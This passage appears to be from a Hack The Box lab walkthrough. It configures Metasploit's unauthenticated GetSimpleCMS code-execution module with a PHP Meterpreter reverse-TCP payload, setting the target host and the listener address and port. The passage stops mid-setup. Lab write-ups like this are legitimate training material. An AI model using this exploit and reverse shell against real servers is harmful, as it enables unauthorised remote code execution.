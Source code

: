 `> use 0`

Now that we have selected the module, let's run a command to show us which options and settings we need to configure in order for it to do its thing.

`> show options`

```bash
Module options (exploit/multi/http/getsimplecms_unauth_code_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the cms
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.211.55.14     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   GetSimpleCMS 3.3.15 and before

```
It looks like we are required to set the *RHOSTS, RPORT, TARGETURI,* and *LHOST* options. We can also see on the bottom that this module works with `GetSimpleCMS 3.3.15 and before`.

RHOSTS is our target IP address, so let's begin by setting that.

`> set RHOSTS 10.129.42.249 `

Next, RPORT is our targets port. Since our nmap scan told us that the web server was running on port 80, there is no need to change this as it's already set by default.

The TARGETURI option dictates under which path the service operates. In our case, it is in the base path of `/` and therefore does not need to be changed either.

The LHOST option is our host's NIC (network interface card) address. Since we are connected using the HacktheBox VPN, it will most likely be under the tun0 interface. We can check our tun0 IP address by typing the following command in a new terminal on our host.

`> ip a`
